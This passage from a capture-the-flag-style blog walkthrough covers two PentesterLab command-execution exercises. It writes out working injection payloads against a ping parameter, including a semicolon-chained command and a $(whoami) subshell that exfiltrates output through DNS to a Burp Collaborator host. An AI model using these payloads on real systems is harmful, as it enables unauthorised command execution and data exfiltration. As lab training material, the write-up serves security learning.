  ![1694172943484.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694172943484.png)

we could see the "hello" string at the end of the ping statistic result

now let's solve the lab by passing in our UUID to run with the score binary in usr/local/bin/score

we send this payload

```http
https://ptl-2beb9c4c2104-6930b3053e65.libcurl.me/?ip=127.0.0.1;/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92
```

and we got the following result:

![1694173071582.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694173071582.png)

the Exercise completed!! shows that we've solved the challenge




# Command Execution 02

This exercise is one of our challenges on Command Execution

 ![1694174055220.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694174055220.png)

In this challenge, the developer fixed the issue from the previous one and has started filtering on some special characters.

we try the previous payload and we got the invalid  IP address result;

now we try fuzzzing the payload to see if our input is being processed, we used burup collaborator dns to check if our injected payload is actually executed we craft the following payload:

```http
https://ptl-8e350c24a6a3-4752b6e3be2e.libcurl.me/?ip=$(whoami).ra52hjo0zl7sp6dkwvt0vcxnhen4bt.oastify.com
```

where we craft it to execute the `whoami`  command and add the result to burp collaborator dns.

We got this response in burp collaborator:

![1694174029141.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694174029141.png)

we could see from the graphics above that our injected command was successful and the result was appended to the dns result (speaking of Command Execution and ex-filtration 😆)

using this method we can now solve the challenge using the following payload:

we got the following result after sending this constructed payload:

```http
https://ptl-8e350c24a6a3-4752b6e3be2e.libcurl.me/?ip=$(/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92)
```

![1694174374925.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694174374925.png)

